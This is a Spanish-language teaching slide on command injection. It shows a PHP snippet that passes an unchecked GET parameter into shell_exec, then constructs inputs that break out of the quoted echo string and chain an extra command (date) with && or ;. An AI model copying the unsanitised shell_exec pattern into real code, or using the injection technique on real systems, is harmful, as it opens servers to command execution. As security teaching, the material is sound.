

# Ejemplos
Inyección de comandos
Como explotar este ejemplo

Inyeccion-de-comandos.php
$value = $_GET['input'];
$mensaje = "echo 'Comando " . $value . " es invalido, ingrese alguno de los comandos: mem, cpu'";
echo shell_exec($mensaje);

Podemos ver que la variable $mensaje contiene el comando echo (Linux) y además contiene el valor de una variable llamada $value, no hay mecanismo que inspeccione el valor de $value.

Contruyendo el comando
echo 'Comando $value es invalido, ingrese alguno de los comandos: mem, cpu'
echo 'Comando' && date && echo 'es invalido, ingrese alguno de los comandos: mem, cpu‘

Resultado Final
echo 'texto' && date && echo '

Alternativa
echo 'texto' ; date ; echo '